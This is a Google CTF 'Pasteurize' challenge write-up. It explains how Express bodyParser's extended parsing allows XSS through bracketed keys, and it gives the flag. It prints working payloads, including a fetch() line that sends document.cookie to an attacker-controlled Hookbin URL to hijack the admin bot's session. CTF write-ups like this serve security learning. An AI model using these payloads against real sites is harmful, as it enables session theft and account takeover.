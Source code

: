 # Google CTF - Pasteurize

# Problem Description
This doesn't look secure. I wouldn't put even the littlest secret in here. My source tells me that third parties might have implanted it with their little treats already. Can you prove me right?

https://pasteurize.web.ctfcompetition.com/

# Solution
I began this problem by writing some HTML tags in the input box. I wrote:

```HTML
<h1>Test</h1>
<button onclick="alert();">Click Me</button>
```

Both the h1 and button were reflected on the page. However, the button did not have any functionality. Upon checking the source code, I discovered that my input was processed and sanitized by the following script:

```js
const note = "\x3Ch1\x3Etest\x3C/h1\x3E\r\n\x3Cbutton onclick=\"alert();\"\x3Eclick me\x3C/button\x3E";
        const note_id = "e5893222-6704-48ce-83d9-1645b6eacb0f";
        const note_el = document.getElementById('note-content');
        const note_url_el = document.getElementById('note-title');
        const clean = DOMPurify.sanitize(note);
        note_el.innerHTML = clean;
        note_url_el.href = `/${note_id}`;
        note_url_el.innerHTML = `${note_id}`;
```

DOMPurify is a JavaScript library that allows client-side output sanitization to prevent XSS. So, I decided to try a method other than bypassing DOMPurify. 

Above the sanitization script, there was a comment that said: `<!-- TODO: Fix b/1337 in /source that could lead to XSS -->`

Thus, I navigated to `/source` and found server-side code written in NodeJS. 

At this point, I took a break from analyzing code and moved to analyzing requests in Burp Suite. I, once again, created a new paste. This time, I inputted `SPICYSTRINGDATA`

The data was reflected in a variable called `content:`. So, I modified the request with an XSS payload and navigated to the location of the request (found in `Location:` in the repeater). The payload I used is listed below:

```js
// Payload format 
content[key] = value

// Payload
content[-alert(1)-]=-1-
```

The payload triggered an alert. This indicated that the site is vulnerable to XSS. Upon analyzing the source, I found my payload reflected as such:

```js
const note = ""-alert(1)-":"-1-"";
```

This XSS payload worked because of a feature in bodyParser found in `/source`. The vulnerable code is listed below:

```js
/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));
```

In the bodyParser documentation, I learned that the `extended` option allows for rich objects and arrays to be encoded into the URL-encoded format. Basically, it allowed me to create a nested object within my query string by surrounding the name of sub-keys with square brackets [Source](https://www.npmjs.com/package/qs). 

At this point, I hit a wall and didn't know how to proceed. Then I remembered a feature for every paste called "share with TJMike." After more research, I decided to research payloads that would allow me to hijack TJMike's session cookie. I used two tools for the attempted hijacking: Burp Suite & Hookbin. 

*Note: I did not come up with this payload. I found it on LiveOverflow's YouTube Channel.*

To begin injecting, go to [Hookbin](https://hookbin.com) and generate a URL. 

Then use the following payload in Burp:

```js
content[-fetch('https://YOURHOOKBINURL?cookie='%2Bdocument.cookie,{'mode':'no-cors'})-]=-1-
```

I then navigated to the location of the request, and sent the paste to TJMIke. I then spent 30 minutes trying to figure out why that payload wasn't working. *(Spoiler: it was)*

**REFRESH THE HOOKBIN PAGE. THE PAYLOAD ONLY WORKS IF YOU DO.**

Scroll down, and you'll find the flag. 

## Flag
```
CTF{Express_t0_Tr0ubl3s}
```

